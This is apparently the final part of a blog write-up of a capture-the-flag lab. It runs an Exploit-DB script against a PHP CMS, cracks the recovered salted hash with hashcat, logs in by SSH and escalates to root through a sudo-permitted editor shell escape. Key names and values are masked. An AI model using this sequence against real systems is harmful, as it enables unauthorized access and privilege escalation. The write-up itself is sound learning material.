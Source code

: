 Find local CVE file: `locate 'php/webapps/*****.py'`

```bash
/usr/share/exploitdb/exploits/php/webapps/*****.py
```

[🔗 CVE](https://www.exploit-db.com/exploits/46635)

Using CVE:

- Ran `sudo apt install 2to3` – exploit written in `python2` has missing modules.
- `2to3 *****.py`, `python *****.py -u http://<ip>/simple` Note, tried multiple times and then randomly worked… didn’t change anything, ghost in shell moment.
- Also, took two attempts to get correct salt and hash, third attempt again produced different set.

```bash
[+] Salt for password found: *****
[+] Username found: *****
[+] Email found: *****
[+] Password found: *****
```

Crack Password: `hashcat -O -a 0 -m 20 '<salt>:<hash>' <wordlist>.txt --show`

- Note, salt first, then hashed password, used hint for wordlist.

Connect: `ssh *****@<ip> -p 2222`

PrivEsc: `sudo -*`

```bash
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/*******
```

Escalate shell: `sudo ***`, `:!bash`, `cat /root/root.txt`

Thanks for reading and I hope you learned something from this little exercise. This is day 52 of [\#100DaysOfHacking](https://mrashleyball.com/100daysofhacking/) on the [Hackers Learning Path](https://mrashleyball.com/learning-path-for-beginner-hacker/). [Subscribe](https://go.mrash.co/newsletter) for [CyberSec](https://mrashleyball.com/starting-out-in-cyber-security/) updates or [read](https://mrashleyball.com/blog) more, happy hacking.